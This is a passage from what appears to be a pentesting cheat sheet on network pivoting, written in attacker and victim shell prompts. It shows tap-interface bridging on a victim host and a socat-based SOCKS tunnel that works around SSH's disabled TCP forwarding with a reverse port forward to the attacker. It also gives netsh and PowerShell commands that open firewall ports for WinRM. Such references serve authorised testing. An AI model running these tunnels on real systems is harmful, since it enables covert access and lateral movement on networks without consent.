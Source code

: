 ```
root@victim:~$ sudo ip link set tap0 up
snovvcrash@attacker:~$ sudo ip link set tap0 up
```

Put Victim's interface and tap into bridge:

```
root@victim:~$ sudo ip link add br0 type bridge
root@victim:~$ sudo ip link set eth0 master br0
root@victim:~$ sudo ip link set tap0 master br0
root@victim:~$ sudo ip link set br0 up
```

Get an IP address for tap on Attacker:

```
snovvcrash@attacker:~$ sudo dhclient -v tap0
```



### SOCKS over Hardened SSH

- [[YouTube] HTB Business CTF 2022: Dirty Money - The Day Before](https://youtu.be/PexfXIrgocA?t=5528)

With `AllowTcpForwarding` set to `no` it's also possible to establish a SOCKS connection through active SSH connection:

```
snovvcrash@attacker:~$ cat tunnel.sh
ssh alice@victim "./socat TCP-LISTEN:2222,reuseaddr STDIO"
snovvcrash@attacker:~$ socat TCP:localhost:22 EXEC:./tunnel.sh
alive@victim:~$ ssh -R 1080 -p 2222 snovvcrash@attacker
```




## netsh / NetFirewallRule



### Rules

Allow inbound traffic flow on port 5986/TCP:

```
Cmd > netsh advfirewall firewall add rule name="Windows Remote Management (HTTPS-In)" dir=in action=allow protocol=TCP localport=5986
Cmd > netsh advfirewall firewall delete rule name="Windows Remote Management (HTTPS-In)"
PS > New-NetFirewallRule -DisplayName "Windows Remote Management (HTTPS-In)" -Direction Inbound -Action Allow -Protocol TCP -LocalPort 5986
PS > Remove-NetFirewallRule -DisplayName "Windows Remote Management (HTTPS-In)"
```



### Relay

